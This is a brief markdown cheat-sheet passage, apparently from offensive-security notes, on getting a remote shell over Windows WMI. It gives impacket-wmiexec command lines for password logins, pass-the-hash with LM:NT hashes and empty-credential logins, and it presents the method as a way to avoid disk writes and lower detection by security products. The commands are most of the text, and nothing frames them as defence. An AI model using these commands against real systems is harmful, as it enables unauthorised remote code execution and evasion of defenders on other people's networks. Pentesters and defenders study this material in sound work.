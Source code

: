 ### WMI
>The advantage to this method is that it allows us to execute code without writing on the disk or creating a new system. The result is a lowered chance of detection by Windows Security Essentials and Bit9, for instance
###### Get Shell
```
impacket-wmiexec domain/username:password@ip
impacket-wmiexec -hashes LMHASH:NTHASH domain/username@ip
```

###### Connecting with authentication
```
impacket-wmiexec domain/'':''@ip
```
###### NXC Module
![image](https://github.com/user-attachments/assets/3d7dc036-4432-4c5b-bc94-e39c4d5a2d5d)

